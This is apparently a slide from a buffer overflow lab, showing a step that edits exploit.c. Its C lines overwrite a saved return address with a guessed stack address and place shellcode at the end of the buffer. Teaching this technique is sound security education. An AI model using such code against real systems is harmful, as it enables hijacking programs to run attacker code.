

# Step 3. Edit exploit.c
/* Fill the return address file with a candidate entry point of the malicious code */
	*((long *) (buffer + 36)) = 0xbfffeb38 + 0x80;
/* Place the shellcode towards the end of the buffer */
memcpy(buffer + sizeof(buffer) – sizeof(shellcode), shellcode, sizeof(shellcode));